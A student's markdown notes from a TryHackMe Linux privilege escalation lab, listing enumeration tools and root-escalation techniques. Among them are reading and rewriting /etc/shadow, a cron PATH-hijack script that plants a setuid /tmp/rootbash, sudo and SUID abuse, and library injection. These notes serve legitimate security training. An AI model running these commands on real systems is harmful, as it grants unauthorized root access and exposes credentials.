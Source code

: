 ```yaml
---
title: Linux PrivEsc
published: 2025-02-25
description: "Practice your Linux Privilege Escalation skills on an intentionally misconfigured Debian VM with multiple ways to get root! SSH is available."
image: "./img/img.jpeg"
tags: [Notes ,THM, linux]
category: 'Notes'
draft: false
---
```


# Spawinig root shell
- 'rootbash' SUID
- Custom Executable (like C code)
- msfvenom 
- Native Revers Shells

# Privelge escalation tools
## linux smart enumeration

```bash
./lse.sh # for normale use
# if none of the first command usefull u can go deeper with
./lse.sh -l 1 -i
./lse.sh -l 2 -i # this will print everything the script gathers
```

## LinEnum

```bash
./LinEnum.sh -k password -e exportsFolder -t # -k for keywords, -e where u want interesting files to be exported, -t to include thorough tests
```

# Kernel exploits

# Service Exploits

```bash
ps aux | grep "^root" # to get services runing as root
<program> --version/v # can show the version of the program
dpkg -l | grep <program> # show installed program and their version
rpm -qa | grep <program> # in redhat 
```

from `lse.sh` we can see 

```bash
[!] sof010 Can we connect to MySQL as root without password?............... yes!
...
12:04     2129     root /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
```

running `mysqld --version` can show us that the versio is `5.1.73-1` which vulnerble to `User-Defined Function (UDF) Dynamic Library`

after compiling and runing the exploit 
![poc](image.png)

## Port Forwarding

```bash
ssh -R <local-port>:127.0.0.1:<service-port> <username>@<local-machine>
# example
ssh -R 4444:127.0.0.1:3306 root@192.168.1.26
# in ur kali machine
mysql -u root -h 127.0.0.1 -P 4444
```

# Weak File Permissions
## `/etc/shadow` file
from `lse.sh` we can see the `/etc/shadow` file is readable and writeble, we can confirm that with :
![shadow](image-1.png)

```bash
# u can read the /etc/shadow and break the hash with john
cat /etc/shadow
# if we can write to the /etc/shadow file that mean we can generate hash from password and replace the root password
mkpasswd -m sha-512 newpasswordhere
```

## `/etc/passwd` file

- for backwards compatibility, if the second field of a user row in `/etc/passwd` contains hash, it takes precedent over `/etc/shadow`

# Sudo

```bash
sudo <program> # run program as sudo
sudo -u <program> # 
sudo -l
sudo su
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

## Shell Escape Sequences

runing `sudo -l` show us that we can run some command as root, searching in [GTFOBins](https://gtfobins.github.io/) we can locate these commands for root usage

## Abusing Intended Functionality

from `sudo -l` we can run apache2 as root but there is no esacape sequence presented in [GTFOBins](https://gtfobins.github.io/), alternatvly apache2 throw error in file cant understandn we can use that to read the 1st line in `/etc/shadow`

## Environment Variables

- `env_reset`
- `env_keep`
- `env_keep+=LD_PRELOAD`
- `env_keep+=LD_LIBRARY_PATH`
    - the `ldd` command can be user to print the shared libraries used by program

# Cron Jobs

user crontabs are usually located in `/var/spool/cron/` or `/var/spool/cron/crontabs`
The system-wide crontab is located at `/etc/crontab`

## File Permissions
if we can write to program or script which gets run as cronjob, we can replace it

## PATH Environment Variable

from `lse.sh` we can locate some writable paths in cron jobs
if we can controle the Path we can see if there is creonjobs that not use the full path and try to create script with the same name in the path we controle

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Make sure that the file is executable:
```bash
chmod +x /home/user/overwrite.sh
watch -n 1 ls -l /tmp
/tmp/rootbash -p
```


## Wildcards

this example can explain the concept : 
```bash
ls *
touch ./-l
ls *
```

![wildcards](image-2.png)

from [GTFOBins](https://gtfobins.github.io/)  we can check if we can spone shell from the command or not

# SUID SGIDExecutables
## Finding SUID / SGID Files
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

after locating some programs we can use shell Escape Sequences or search for know exploits

## Shared Object Injection
by using a program called `strace` we can track shared object called, and see if there is missing ones, then we can change it with our Object

```bash
strace /path/to/program 2>&1 | grep -iE "open|access|no such file"
```
![shared](image-3.png)

## PATH Environment Variable
### Finding Vulnerable Programs

we can use `strings` to see if the program try to locate another program
we can use `strace` here too or `ltrace`

```bash
strings /path/to/file
strace -v -f -e execve <command> 2>&1 | grep exec
ltrace <command>
```

# Privilege Escalation Strategy

1. Check your user (id, whoami)
2. Run `lse.sh` and increas levels
3. run linEnum and linPeas too
4. Try Manual enumeration if the scripts fail